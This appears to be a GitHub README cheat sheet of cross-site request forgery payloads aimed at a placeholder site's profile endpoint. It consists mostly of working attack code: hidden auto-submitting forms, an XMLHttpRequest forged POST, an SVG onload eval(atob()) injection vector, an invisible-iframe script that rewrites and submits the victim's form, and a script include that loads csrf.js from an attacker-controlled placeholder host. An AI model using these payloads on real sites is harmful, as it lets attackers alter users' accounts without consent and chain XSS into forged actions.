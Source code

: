 # csfr-injections

### Basic form
```html
<form name="pls" action="https://xxx.fr/index.php?action=profile" method="post">
<div class="form-group">
		<label>Username:</label>
		<input name="username" value="devsid" type="text">
		</div>
		<br>		
		<div class="form-group">
		<label>Status:</label>
		<input name="status"checked="checked" type="checkbox">
		</div>
		<br>	
		<button type="submit">Submit</button>
</form>
<script language="javascript">document.pls.submit();</script>
```

### Basic form
```html
<html><body>

  <form name="csrf" action="https://xxx.fr/index.php?action=profile" method="POST">
    <input type="hidden" name="username" value="aaa">
    <input type="hidden" name="status" value="on">
  </form>

  <script type="text/javascript">document.csrf.submit();</script>
</body></html>
```

### Form using XMLHttpRequest
```html
<script>
var formData = new FormData();
formData.append("username", "test");
formData.append("status", "on");
var request = new XMLHttpRequest();
request.open("POST", "https://xxx.fr/index.php?action=profile");
request.send(formData);
</script>

### Encoded payload 
```js
<svg/onload=eval(atob('<base 64 payload>'));//>
```

### You can also host a script and then call it if the target is XSS vulnerable
```js
// On charge le formulaire dans une frame invisible
document.write('<iframe id=\"iframe\" src=\"https://xxx.fr/index.php?action=profile\" width="0" height="0" onload=\"pwn()\"></iframe>');

//On modifie les champs à notre guise
function pwn() {
        document.getElementById('iframe').contentDocument.forms[0].username.value='titi'; 
        document.getElementById('iframe').contentDocument.forms[0].status.checked=true;
        document.getElementById('iframe').contentDocument.forms[0].status.disabled=false
        document.getElementById('iframe').contentDocument.forms[0].submit();
}
```

### Load
```js
<script src="http://XXXXXXX/csrf.js"></script>
```